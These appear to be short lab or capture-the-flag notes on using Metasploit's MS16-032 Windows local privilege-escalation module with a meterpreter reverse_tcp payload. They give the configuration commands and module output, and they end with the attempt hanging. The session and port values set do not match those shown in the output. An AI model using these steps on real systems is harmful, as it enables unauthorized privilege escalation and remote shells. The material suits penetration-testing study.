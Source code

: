 ```
search ms16_032
windows/local/ms16_032_secondary_logon_handle_privesc
```

options

target 1 to change to x64, session number, set the lport to something different than the meterpreter shell.

```
set target 1
set lport 9019
set session 2
run
```



```
Module options (exploit/windows/local/ms16_032_secondary_logon_handle_privesc):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  3                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.49      yes       The listen address (an interface may be specified)
   LPORT     4446             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows x64
```

Then it hangs. 